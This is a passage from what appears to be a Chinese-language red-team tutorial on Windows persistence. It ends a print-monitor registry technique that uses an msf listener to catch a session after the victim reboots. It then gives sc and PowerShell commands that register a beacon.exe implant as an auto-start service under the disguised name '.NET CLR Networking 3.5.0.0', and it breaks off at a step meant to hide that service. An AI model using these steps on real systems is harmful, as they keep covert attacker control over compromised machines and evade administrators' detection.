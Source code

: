 5. 打开注册表查看`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`是否写入成功 ![image-20221110170643019](../资源文件/图片/202303251636786.png)
6. msf监听，受害机重启即可收到监听

### 利用安全描述符隐藏服务后门进行权限维持

将后门程序注册为自启动服务是我们常用的一种进行权限维持的方法，通常可以通过sc或者powershell来进行创建。本文创建服务名为.NET CLR Networking 3.5.0.0的服务(什么名字都可以)

1.  

```
cmd创建自启动服务
sc create ".NET CLR Networking 3.5.0.0" binpath= "cmd.exe /k C:\Users\administrator\beacon.exe" depend= Tcpip obj= Localsystem start= auto
powershell创建自启动服务
new-service –Name ".NET CLR Networking 3.5.0.0" –DisplayName ".NET CLR Networking 3.5.0.0" –BinaryPathName "cmd.exe /k C:\Users\administrator\beacon.exe" –StartupType AutomaticDelayedStart
```

1. 但创建的服务很容易被发现 通过 sc query 和 Get-Service 很容易发现，直接查询服务也能看见 ![image-20221110181956500](../资源文件/图片/202303251636820.png) 开启服务`sc start ".NET CLR Networking 3.5.0.0"`
2. 使服务拒绝访问
